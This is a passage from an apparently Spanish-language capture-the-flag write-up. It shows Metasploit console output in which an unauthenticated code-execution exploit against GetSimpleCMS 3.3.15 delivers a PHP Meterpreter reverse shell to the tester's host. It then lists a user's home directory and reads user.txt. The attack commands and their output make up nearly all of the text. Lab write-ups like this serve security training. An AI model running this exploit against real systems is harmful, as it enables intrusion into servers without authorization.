 ```js
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the cms
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.129    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   GetSimpleCMS 3.3.15 and before



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set RHOSTS  10.129.87.77
RHOSTS => 10.129.87.77
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set LHOST 10.10.14.178
LHOST => 10.10.14.178
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.178:4444 
[*] Sending stage (39927 bytes) to 10.129.87.77
[*] Meterpreter session 1 opened (10.10.14.178:4444 -> 10.129.87.77:48986) at 2023-03-27 18:07:56 +0200

meterpreter > pwd
/var/www/html/theme
```

Obtengo acceso y empiezo a navegar con *meterpreter*.

```js
meterpreter > cd mrb3n
meterpreter > ls
Listing: /home/mrb3n
====================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
020666/rw-rw-rw-  0      cha   2023-03-27 16:23:02 +0200  .bash_history
100644/rw-r--r--  220    fil   2020-02-25 13:03:22 +0100  .bash_logout
100644/rw-r--r--  3771   fil   2020-02-25 13:03:22 +0100  .bashrc
040700/rwx------  4096   dir   2021-02-09 10:12:07 +0100  .cache
100644/rw-r--r--  807    fil   2020-02-25 13:03:22 +0100  .profile
100644/rw-r--r--  0      fil   2021-02-09 11:56:38 +0100  .sudo_as_admin_successful
100600/rw-------  10332  fil   2021-05-07 16:28:39 +0200  .viminfo
100664/rw-rw-r--  33     fil   2021-02-16 12:00:55 +0100  user.txt

meterpreter > cat user.txt
```
